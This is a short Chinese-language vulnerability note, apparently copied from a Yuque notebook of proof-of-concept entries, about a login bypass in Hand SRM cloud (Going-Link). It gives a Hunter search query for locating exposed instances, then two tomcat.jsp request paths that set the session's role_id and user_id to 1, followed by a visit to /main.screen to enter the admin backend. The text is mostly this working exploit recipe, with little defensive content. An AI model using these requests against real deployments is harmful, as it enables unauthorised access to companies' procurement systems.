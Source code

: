 # 汉得SRM tomcat.jsp 登录绕过漏洞

# 一、漏洞简介
汉得SRM云是面向企业采购流程信息化建设的完整解决方案。基于汉得供应商关系管理体系在战略寻源与集中采购、供应链协同和优益采购三大采购管理领域的成功实践，形成了深度契合业务实体的三项组件级解决方案。汉得SRM tomcat.jsp 存在登录绕过漏洞，可绕过身份认证登录后台。

# 二、影响版本
+ 汉得 SRM云平台（Going-Link）

# 三、资产测绘
+ hunter：`app.name="汉得 SRM Going-Link"`

![1691633444395-128795bc-eda8-404c-956d-8147631e5f4f.png](./img/zp0A_yg2AV9HVCoP/1691633444395-128795bc-eda8-404c-956d-8147631e5f4f-852592.png)

+ 登录页面

![1691633633657-ce37893e-1008-4ebd-ba12-5829debf3f3a.png](./img/zp0A_yg2AV9HVCoP/1691633633657-ce37893e-1008-4ebd-ba12-5829debf3f3a-412386.png)

# 四、漏洞复现
1. 访问`tomct.jsp`

```java
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![1691634374117-f33fbea4-fb74-4443-a8a1-077e4fa58158.png](./img/zp0A_yg2AV9HVCoP/1691634374117-f33fbea4-fb74-4443-a8a1-077e4fa58158-644860.png)

![1691634393767-677fb789-042e-4e9a-ab69-69f7ba82f2d0.png](./img/zp0A_yg2AV9HVCoP/1691634393767-677fb789-042e-4e9a-ab69-69f7ba82f2d0-860506.png)

2. 然后访问后台`<font style="color:rgba(0, 0, 0, 0.9);">/main.screen</font>`

![1691634449862-e80411bc-7175-4b3b-b099-744552207362.png](./img/zp0A_yg2AV9HVCoP/1691634449862-e80411bc-7175-4b3b-b099-744552207362-749194.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kb4n0lalk008g50l>